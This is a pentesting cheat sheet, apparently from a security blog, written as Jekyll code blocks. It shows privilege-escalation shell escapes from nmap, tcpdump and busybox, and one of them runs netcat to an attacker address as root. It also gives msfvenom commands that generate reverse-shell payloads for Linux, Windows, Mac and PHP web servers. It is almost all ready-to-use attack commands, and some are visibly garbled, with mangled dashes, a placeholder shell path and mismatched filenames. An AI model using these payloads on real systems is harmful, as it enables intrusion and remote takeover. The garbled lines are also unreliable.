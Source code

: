   {% highlight shell-session %}
    # From within nmap:
    !sh
  {% endhighlight %}

  {% highlight shell-session %}
    # From within tcpdump
    echo $’id\\n/bin/netcat $ip 443 –e /bin/shell-session’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root
  {% endhighlight %}

  {% highlight shell-session %}
    # From busybox
    /bin/busybox telnetd -|/bin/sh -p9999
  {% endhighlight %}

## Creating Meterpreter Shells with MSFVenom

### [most-useful-msfvenom-payloads](http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/)

### *Linux*
  {% highlight shell-session %}
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
  {% endhighlight %}

### *Windows*
  {% highlight shell-session %}
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
  {% endhighlight %}

### *Mac*
  {% highlight shell-session %}
    msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
  {% endhighlight %}

### **Web Payloads**

- *PHP*

{% highlight shell-session %}
  msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
  ## OR
  msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

  ## Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:
  cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
{% endhighlight %}

